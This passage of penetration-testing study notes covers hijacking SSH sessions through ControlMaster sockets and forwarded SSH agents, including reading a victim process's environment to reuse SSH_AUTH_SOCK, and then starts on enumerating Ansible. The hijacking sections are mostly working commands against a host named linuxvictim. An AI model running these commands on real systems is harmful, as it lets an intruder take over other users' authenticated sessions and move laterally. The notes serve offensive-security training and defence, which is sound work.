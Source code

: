 When the victim would come and connect to different host using ssh, we would be able to see the socket files in the controlmaster folder.
#ssh #hijacking 
```bash
ls -la ~/.ssh/controlmaster/
# Now, we can just ssh to reuse the same socket.
ssh offsec@linuxvictim
# If we are root, we can hijack using the -S param
ssh -S /home/offsec/.ssh/controlmaster/offsec@linuxvictim\:22 offsec@linuxvictim
```


#### SSH Hijacking using ssh-agent and forwarding

**SSH agent** keeps track of user's private keys. It allows to access the remote ssh agent as it is local one. In that case someone can use **ssh-proxy** to access other segment of the network, which is not reachable normally. It allows to use the private key on different machine without transporting it to the machine. 

It is easy to exploit, if you have exploited the same user and the AllowAgentForwarding is set in the sshd config:
#config #ssh #hijacking
```bash
grep AllowAgentForwarding /etc/ssh/sshd_config 
```
Then, when the victim is authenticated and the victim has the ssh agent configured, you can just **reuse the socket** (if the same user, you can do auto just ssh to destination) with **root** user:
#ssh #hijacking #socket
```bash
ps aux | grep ssh
pstree -p <username> | grep ssh
# Once we got the bash pid we read the environ file
cat /proc/<proc_id>/environ
# Then we can copy the SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-QhSEiwfZdQ/agent.2547 ssh-add -l
SSH_AUTH_SOCK=/tmp/ssh-QhSEiwfZdQ/agent.2547 ssh offsec@linuxvictim
```

### DevOps

#### Ansible
#devops #ansible

Config management tool - nodes run the ansible agent that executes python scripts pushed by the ansible master.
Inventory is in the **/etc/ansible/hosts**. The **controller** needs to connect to nodes via **SSH**, so it must have either the password or the ssh key The **Ansible user** will typically have **root or sudo perms**.


##### Enumerating ansible: 
#enum #ansible 
if ansible is on the system there will be **/etc/ansible** path and /usr/bin/ansible binary or **ansibleadm** in the **/etc/passwd**. Those things would be on controller.
For the node, we can check the /etc/passwd for the same user, /home for home dir of the ansibleadm or the /var/log/syslog for the ansible related messages.
